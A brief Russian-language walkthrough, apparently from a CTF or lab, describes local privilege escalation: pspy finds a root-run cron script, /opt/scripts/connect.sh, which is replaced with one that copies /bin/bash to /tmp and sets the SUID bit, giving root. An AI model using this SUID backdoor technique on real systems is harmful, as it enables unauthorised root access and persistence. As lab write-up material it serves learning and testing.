запускаем ./pspy для поиска процессов
находим скрипт connect.sh
```
#!/bin/bash

if ping -q -c 1 -W 8.8.8.8 >/dev/null; then
  echo "IPv4 is currently up" > /root/ip_status.txt
else
  echo "IPv4 is currently down" > /root/ip_status.txt
fi
```
для изменения файла не хватает прав, но мы можем удалить его и создать новый
```
#!/bin/bash 
cp /bin/bash /tmp && chmod +s /tmp/bash
```
выдаем такие же права на файл chmod 755 /opt/scripts/connect.sh. В течение минуты скрипт будет выполнен и получен доступ к root